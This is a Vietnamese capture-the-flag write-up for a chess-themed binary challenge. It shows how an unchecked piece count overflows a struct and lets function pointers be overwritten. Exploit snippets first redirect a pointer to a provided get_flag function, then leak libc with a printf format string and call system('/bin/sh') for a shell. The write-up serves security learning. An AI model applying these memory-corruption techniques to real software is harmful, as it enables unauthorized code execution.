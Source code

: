 Bài này mình được cung cấp cả source và hint nên việc tìm ra bug cũng không quá khó.

Hint: **Một người chơi có bao nhiêu quân cờ.**

# **BUG**

Xem qua file source, ta thấy struct player được định nghĩa như sau:
```
typedef struct player {
    int nuoc;
    int quan_luc;
    quan_co c[16];
    void (*di)(struct player *);
    void (*trash_talk)(struct player *);
    void (*them_quan)(struct player *, loai_quan_co, char *, mau_quan_co);
} player;
```
Như vậy, mỗi người chơi sẽ có tối đa 16 quân cờ. Tuy nhiên, đoạn code thêm quân phía bên dưới không kiểm tra số lượng quân cờ của người chơi:
```
switch (read_num()) {
            case 1:
                quan = read_quan();
                dan_do = read_dan_do();
                human->them_quan(human, quan, dan_do, ddo);
                printf("- Đã điều động thêm %s.\n", human->c[human->quan_luc-1].string);
                break;
```
```
void them_quan(player* p, loai_quan_co l, char *dan_do, mau_quan_co mau) {
    init_quan_co(&(p->c[p->quan_luc]), l, dan_do, mau);
    p->quan_luc += 1;
}
```
Điều này dẫn đến người chơi có thể nhập nhiều hơn 16 quân cờ và ghi đè được các hàm *di*, *trash_talk* và *them_quan*

# **Exploit**
## Sử dụng hàm get_flag có sẵn:

Do giới hạn của ctf 3 tiếng nên anh ra đề đã cung cấp sẵn 1 hàm *get_flag* để đọc flag.

Để tận dụng hàm này, ta chỉ cần thêm quân 16 lần, sau đó ở lần thứ 17 sẽ thêm 1 quân có giá trị *dan_do* là địa chỉ của hàm *get_flag*.
Khi đó, hàm *di* sẽ bị ghi đè bởi hàm *get_flag*. Sau đó, gọi hàm *di* để lấy flag:
```
        for i in range(16):
                them_quan("xe", "ahuhi")

# use get_flag
        them_quan("noob", p32(get_flag))

        r.sendline("2")
        r.interactive()
```

## Get shell:

Sau khi mình khai thác sử dụng lại hàm get_flag thành công, mình được khuyến khích là thử tìm cách để lấy được shell xem có được không.

Với zer0 kiến thức về khai thác trên heap, mình khá là betak khúc này. Sau đó, mình được anh **@bo8** nói là trong trường hợp này, mình chỉ có thể control được con trỏ lệnh chứ không thể kiểm soát được đối số truyển vào. Do đó, mình phải tìm cách tận dụng lại các đối số này.

Sau một khoảng thời gian bế tắc again, mình có hỏi và nhận được một super hint siêu to khổng lồ từ "ĐẤNG" **@HoàngThắng** là có thể sử dụng *printf* để leak địa chỉ hàm *__libc_start_main* ở trong stack.

OK, có hint super value rồi, triển khai thôi:

### Leak address:

Sau một thời gian tìm trong source code của bài, mình thấy hàm *read_str* có nhiệm vụ đọc chuỗi vào một địa chỉ truyển vào:
```
void read_str(char *buf, unsigned int size) {
    int ret;
    ret = read(0, buf, size);

    if (ret <= 0) {
        puts("read error");
        exit(1);
    }

    buf[ret-1] = '\x00';
}
```
Vì vậy mình có thể tận dụng lại hàm này để lưu formatstring mình cần vào tại địa chỉ của *human*. Sau đó, ghi đè hàm *di* thành hàm *printf* và gọi nó để leak giá trị bên trong stack:

Ở đây, vị trí mình cần leak ra nằm ở vị trí từ 16 trong stack, vậy formatstring cần sử dụng là __%15$p__:

![show_stack](https://github.com/tykawaii/CTF/blob/master/Writeups/uitctf/cokhichtuong/images/stack.PNG)

Và giá trị mình leak ra được là **__libc_start_main + 247** => **Libc base = leak - 247 - __libc_start_main offset**

![leak address](https://github.com/tykawaii/CTF/blob/master/Writeups/uitctf/cokhichtuong/images/leak.PNG)

Sau khi leak và tính toán được các địa chỉ cần thiết, mình sử dụng lại hàm *them_quan* để ghi đè hàm system vào địa chỉ hàm bất kì, ở đây mình chọn hàm *khich_tuong*.

Tuy nhiên, vị trí của các giá trị mình ghi vào có phụ thuộc vào giá trị của biến *quan_luc* trong struct player. Do đó, trước khi thêm quân, mình cần phải sửa lại giá trị này thành 0x10(16):
```
        r.recvuntil("> ")
        r.sendline("2")
        r.sendline("\x00"*4 + "\x10\x00\x00\x00")
```

Sau khi sửa lại giá trị *quan_luc*, thêm 1 quân để ghi đè 2 hàm *di* và hàm *khich_tuong* bằng 2 hàm *read_str* và hàm *system*.

Cuối cùng, để lấy shell, gọi hàm *di* (đã bị ghi đè thành *read_str*) để truyển vào chuỗi "/bin/sh" và gọi *khich_tuong* để thực hiện *system("/bin/sh")*:
```
        r.recvuntil("> ")
        them_quan("noob", p32(read_str)+p32(system))

        r.sendline("2")
        r.sendline("/bin/sh")

        r.recvuntil("> ")
        r.sendline("3")

```
![get_shell](https://github.com/tykawaii/CTF/blob/master/Writeups/uitctf/cokhichtuong/images/final.PNG)

Cảm ơn mọi người đã đọc hết write-up của mình :smile:
